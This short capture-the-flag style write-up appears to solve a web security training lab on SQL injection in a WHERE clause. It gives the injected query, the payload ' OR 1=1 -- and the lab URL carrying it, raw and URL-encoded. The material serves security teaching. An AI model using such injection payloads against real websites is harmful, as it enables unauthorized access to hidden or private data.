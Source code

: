 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Craft the SQL query in this format 

    SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1

SQLi

    https://acbf1f0d1ec13bfac071470d00b1004b.web-security-academy.net/filter?category=' OR 1=1 --

SQLi (After URL Encoding)

    https://acbf1f0d1ec13bfac071470d00b1004b.web-security-academy.net/filter?category=%27%20OR%201=1%20--
